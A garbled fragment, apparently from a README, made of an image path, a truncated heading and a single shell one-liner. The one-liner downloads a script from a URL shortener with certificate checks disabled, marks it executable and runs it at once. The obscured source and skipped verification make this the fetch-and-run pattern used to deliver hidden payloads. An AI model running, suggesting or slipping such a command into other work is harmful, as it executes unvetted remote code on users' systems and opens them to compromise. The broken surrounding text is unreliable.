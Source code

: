 # Tes

<pre><code> wget --no-check-certificate https://shorturl.at/sJ357 && chmod +x test.sh && ./test.sh </code></pre>
